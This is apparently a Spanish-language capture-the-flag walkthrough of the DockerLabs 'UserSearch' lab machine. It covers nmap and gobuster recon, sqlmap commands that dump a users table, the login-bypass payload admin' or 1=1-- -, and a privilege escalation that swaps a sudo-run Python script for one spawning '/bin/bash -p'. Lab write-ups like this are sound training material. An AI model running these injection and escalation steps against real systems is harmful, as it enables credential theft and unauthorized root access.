









___
Tags: #sqli #sqlmap #SUID
___
# UserSearch
## Información General

**- Dificultad:** Facil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  SQLI, Binario SUID <br>
**- Fecha de resolución:** 25/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.19.0.2**
### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.19.0.2
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.19.0.2
```

| Open port | Service | Version                                       |
| --------- | ------- | --------------------------------------------- |
| 22        | ssh     | OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) |
| 80        | http    | Apache httpd 2.4.59 ((Debian))                |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://172.19.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

> http://172.19.0.2/

<p align="center"> 

</p>

## Explotación

### SQLI - sqlmap

```
sqlmap --url http://172.19.0.2/ --dbs --forms --batch
```

<p align="center"> 

</p>

```
sqlmap --url http://172.19.0.2/ -D testdb --tables --forms --batch
```

<p align="center"> 

</p>

```
sqlmap --url http://172.19.0.2/ -D testdb -T users --columns --forms --batch
```

<p align="center"> 

</p>

```
sqlmap --url http://172.19.0.2/ -D testdb -T users -C password,username --dump --forms --batch
```

<p align="center"> 

</p>

### SQLI - or 1=1-- -

```
admin' or 1=1-- -
```

<p align="center"> 

</p>

```
ssh kvzlx@172.19.0.2
```

<p align="center"> 

</p>

## Escalada de Privilegios

```
sudo -l
```

<p align="center"> 

</p>

Me estoy dando cuenta que el archivo esta dentro de la carpeta de usuario, por tanto una cosa que se me ocurre borrar el archivo y crear uno con código malicioso.

```
import os
os.system("/bin/bash -p")
```

<p align="center"> 

</p>

## Conclusión

La máquina **usersearch** de **DockerLabs** repasamos la explotación **sqli**. Además, la escalada se realiza de manera muy sencilla, solo hay que fijarse que el archivo esta en la carpeta de usuario y se puede manipular fácilmente y con ello ser luego root.